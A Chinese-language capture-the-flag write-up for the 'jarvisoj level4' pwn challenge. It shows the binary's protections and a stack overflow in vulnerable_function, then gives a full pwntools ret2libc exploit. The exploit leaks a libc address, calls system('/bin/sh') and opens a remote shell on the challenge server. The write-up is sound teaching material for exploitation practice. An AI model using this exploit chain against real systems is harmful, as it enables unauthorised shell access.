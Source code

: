 ```yaml
---
author: 
  name: Zephyr
title: jarvisoj level4
date: 2022-3-27 17:18:20
permalink: /pages/2e1547494524d19d
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# jarvisoj level4

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/jarvisoj_level4/level4'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  write(1, "Hello, World!\n", 0xEu);
  return 0;
}
```

vulnerable_function函数如下

```c
ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  return read(0, buf, 0x100u);
}
```



## 思路分析

1. 目前信息：
   - `vulnerable_function`函数可溢出
   - 无`system`、`/bin/sh`与后门函数
   - No canary found
   - NX enabled
   - No PIE
2. 思路：
   - 典型的`ret2libc`解法

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/jarvisoj_level4/level4'
io = remote('node4.buuoj.cn', 26609)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 136+4
libc_start_main_got = elf.got['__libc_start_main']
write_plt = elf.plt['write']
vulnerable_function = elf.symbols['vulnerable_function']
payload = flat(['a'*padding, write_plt, vulnerable_function,1, libc_start_main_got, 4])
io.send(payload)
leak_libc_start_main = u32(io.recv(4))
success("leak_libc_start_main:"+hex(leak_libc_start_main))
libc = LibcSearcher('__libc_start_main', leak_libc_start_main)
libc_base = leak_libc_start_main-libc.dump('__libc_start_main')
system = libc_base+libc.dump('system')
bin_sh = libc_base+libc.dump('str_bin_sh')
payload = flat(['a'*padding, system, 0xdeadbeef, bin_sh])
io.send(payload)
io.interactive()
```
